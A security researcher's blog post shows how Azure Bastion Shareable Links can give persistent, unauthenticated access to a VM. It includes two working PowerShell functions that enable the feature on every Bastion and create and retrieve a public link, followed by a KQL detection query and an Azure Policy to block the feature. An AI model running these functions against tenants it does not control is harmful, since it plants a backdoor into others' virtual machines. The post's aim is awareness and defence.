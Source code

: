 ```yaml
---
layout: post
title:  "Yet Another Azure VM Persistence Using Bastion Shareable Links"
date:   2022-11-26
---
```


Earlier this week Microsoft [announced the public preview of Shareable Links in Azure Bastion](https://learn.microsoft.com/en-us/azure/bastion/shareable-link). 

Out-of-the-box persistence for a Virtual Machine that is reachable through an Azure Bastion, allowing for yet [another](https://microsoft.github.io/Azure-Threat-Research-Matrix/Persistence/Persistence/) persistence mechanism in Azure?

I deployed an Azure Bastion to validate, enabled the feature, and generated a Shareable Link for a VM. The link has no additional authentication and is publicly accessible.

**Example link:** Public link for Bastion - [https://bst-c6bf3220-015d-4d6e-8c19-32ac484e341f.bastion.azure.com/api/shareable-url/074fa24e-8614-47ea-94f7-f9f901003598](https://bst-c6bf3220-015d-4d6e-8c19-32ac484e341f.bastion.azure.com/api/shareable-url/074fa24e-8614-47ea-94f7-f9f901003598) 

![bastion](https://user-images.githubusercontent.com/26272119/204090894-4c9f4232-215a-472e-90d9-77dab0aba820.png)

To enable the feature and get a shareable link, the permissions listed below are required to perform this. These permissions are all associated with the Contributor role: 

- Microsoft.Network/bastionHosts/write
- Microsoft.Network/bastionHosts/createShareableLinks/action
- Microsoft.Network/bastionHosts/getShareableLinks/action

There are three operations required to configure the persistence:

1. Update the Bastion to enable the Shareable Link feature [https://learn.microsoft.com/en-us/rest/api/virtualnetwork/bastion-hosts/create-or-update?tabs=HTTP](https://learn.microsoft.com/en-us/rest/api/virtualnetwork/bastion-hosts/create-or-update?tabs=HTTP) 
2. Create a Shareable Link for a specified VM [https://learn.microsoft.com/en-us/rest/api/virtualnetwork/put-bastion-shareable-link/put-bastion-shareable-link?tabs=HTTP](https://learn.microsoft.com/en-us/rest/api/virtualnetwork/put-bastion-shareable-link/put-bastion-shareable-link?tabs=HTTP)
3. Retrieve the URL for the Shareable Link  [https://learn.microsoft.com/en-us/rest/api/virtualnetwork/get-bastion-shareable-link/get-bastion-shareable-link?tabs=HTTP](https://learn.microsoft.com/en-us/rest/api/virtualnetwork/get-bastion-shareable-link/get-bastion-shareable-link?tabs=HTTP) 

To streamline enablement of the feature, I wrote two functions, that I plan to further improve and submit to [Microburst](https://github.com/NetSPI/MicroBurst). 

This requires the Az module to be installed for it to retrieve a token:

```powershell
function Invoke-AzRestBastionShareableLink {

    # Author: Karim El-Melhaoui(@KarimsCloud), O3 Cyber
    # Description: PowerShell function for creating a shareable link in Azure Bastion
    # A VM must be specified as the link is attached to a VM.
    # https://learn.microsoft.com/en-us/azure/bastion/shareable-link

    [CmdletBinding()]
    Param(
    [Parameter(Mandatory=$true,
    HelpMessage="Name of VM to enable Shareable Link")]
    [string]$VMName = ""
    )

    $Token = Get-AzAccessToken
    $Headers = @{Authorization = "Bearer $($Token.Token)" }

    $AzBastions = Get-AzBastion
    Write-Output "Enabling Shareable Link feature on all Azure bastions"

    #Gets the ID of VM specified through name parameter to use for creating a shareable link
    $VMId = Get-AzVM -Name $VMName | Select-Object -ExpandProperty Id
    Write-Output "Id of VM: $VMId" 

    foreach ($AzBastion in $AzBastions) {

        
        $body = -join ('{"location": "',$AzBastion.location,'", "properties": {"enableShareableLink": "true","ipConfigurations": [{"name": "',$AzBastion.IpConfigurations.Name,'","properties":{"publicIPAddress": {"Id": "',$AzBastion.IpConfigurations.PublicIpAddress.Id,'"},"subnet":{"Id": "',$AzBastion.IpConfigurations.Subnet.Id,'"}}}]}}')
        $RGName = $AzBastion.ResourceGroupName
        $BastionName = $AzBastion.Name
        try {
            Write-Output "Enabling shareable links on $BastionName"
            Invoke-RestMethod -Method Put -Uri "https://management.azure.com/subscriptions/$($subscriptionId)/resourceGroups/$($RGName)/providers/Microsoft.Network/bastionHosts/$($BastionName)?api-version=2022-05-01" -Headers $Headers -Body $body -ContentType "application/json"

        }
        catch {
            Write-Output "Something went wrong. : $_"
        }
        
        #Generate body with VM ID specifie. 
        $VMBody = -join ('{"vms":[{"vm":{"id":"',$VMId,'"}}]}')

        try {
        #Creates shareable link for specified VM
        Invoke-RestMethod -Method Post -Uri "https://management.azure.com/subscriptions/$($subscriptionId)/resourceGroups/$($RGName)/providers/Microsoft.Network/bastionHosts/$($BastionName)/createShareableLinks?api-version=2022-05-01" -Headers $Headers -Body $VMBody -ContentType "application/json"

        }
        catch {
            Write-Output "Something went wrong. : $_"
        }
    }
}

Invoke-AzRestBastionShareableLink
```


Once the feature is enabled on a Bastion, you can retrieve the links using the function below. The retrieval of the Shareable Link is separated into a separate function as the Shareable Link cannot be retrieved until the operation for enabling it is complete.



```powershell
function Get-AzRestBastionShareableLink {

    # Author: Karim El-Melhaoui(@KarimsCloud), O3 Cyber
    # Description: PowerShell function for getting an existing shareable link in Azure Bastion
    # https://learn.microsoft.com/en-us/azure/bastion/shareable-link

    $Token = Get-AzAccessToken
    $Headers = @{Authorization = "Bearer $($Token.Token)" }

    $AzBastions = Get-AzBastion
    Write-Output "Getting all Shareable Links for Azure bastions"
    foreach ($AzBastion in $AzBastions) {        
        $RGName = $AzBastion.ResourceGroupName
        $BastionName = $AzBastion.Name
    
        try {
            $BastionLink = Invoke-RestMethod -Method Post -Uri "https://management.azure.com/subscriptions/$($subscriptionId)/resourceGroups/$($RGName)/providers/Microsoft.Network/bastionHosts/$($BastionName)/GetShareableLinks?api-version=2022-05-01" -Headers $Headers | Select-Object -ExpandProperty Value | Select-Object -ExpandProperty bsl
            Write-Host -ForegroundColor Green "Public link for Bastion: $BastionLink"
        }
        catch {
            Write-Output "Something went wrong. : $_"
        }
    }
}

Get-AzRestBastionShareableLink
```



# Detection

The particular operations can be deteted in the AzureActivity log with the KQL query below:

```bash
AzureActivity
| where OperationNameValue =~ "MICROSOFT.NETWORK/BASTIONHOSTS/GETSHAREABLELINKS/ACTION" or OperationNameValue =~ "MICROSOFT.NETWORK/BASTIONHOSTS/CREATESHAREABLELINKS/ACTION"
| order by TimeGenerated desc
| project Caller, CallerIpAddress, OperationName, TimeGenerated, ResourceId
```



# Prevention

Ideally, you should also consider preventing the feature using Azure Policy with the below Policy Definition:

```json
{
  "mode": "All",
  "parameters": {
    "effect": {
      "type": "String",
      "allowedValues": ["Audit", "Disabled", "Deny"]
    }
  },
  "policyRule": {
    "if": {
      "allOf": [
        {
          "field": "type",
          "equals": "Microsoft.Network/BastionHosts"
        },
        {
          "field": "Microsoft.Network/BastionHosts/enableShareableLink",
          "equals": true
        }
      ]
    },
    "then": {
      "effect": "[parameters('effect')]"
    }
  }
}
```


# Summary

Even though this is an intended feature and behavior, security teams should be aware of the feature and consider detection/prevention methods.